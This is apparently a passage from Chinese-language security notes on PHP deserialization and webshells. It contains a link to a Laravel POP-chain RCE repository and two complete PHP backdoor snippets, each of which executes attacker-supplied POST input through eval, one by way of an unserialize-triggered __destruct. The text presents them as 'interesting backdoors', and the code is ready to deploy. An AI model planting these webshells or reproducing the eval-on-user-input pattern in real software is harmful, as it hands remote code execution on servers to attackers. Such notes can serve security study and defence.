 ### laravel

https://github.com/SZFsir/laravel_POP_RCE

### ThinkPHP

## 04-PHP反序列化与Webshell

```php
<?php
class A{
    var $test = "demo";
    function __destruct(){
        @eval($this->test);
    }
}
$test = $_POST['test'];
$len = strlen($test)+1;
$pp = "O:1:\"A\":1:{s:4:\"test\";s:".$len.":\"".$test.";\";}"; // 构造序列化对象
$test_unser = unserialize($pp); // 反序列化同时触发_destruct函数
?>
```

这也是另外的一个例子。通过反序列化可以做一些比较有趣的后门。

```php
<?php
class evals{
    protected $links;
    function __construct($an){
        $this->links = $an;
        eval("\$title=1;".$this->links);
    }
}
$a = new evals(@$_POST['An']);
?>
```

## 05-参考链接

- [https://kylingit.com/]([https://kylingit.com/blog/%E7%94%B1phpggc%E7%90%86%E8%A7%A3php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/](https://kylingit.com/blog/由phpggc理解php反序列化漏洞/))
- https://v0w.top/2020/03/05/unsearise-POP/

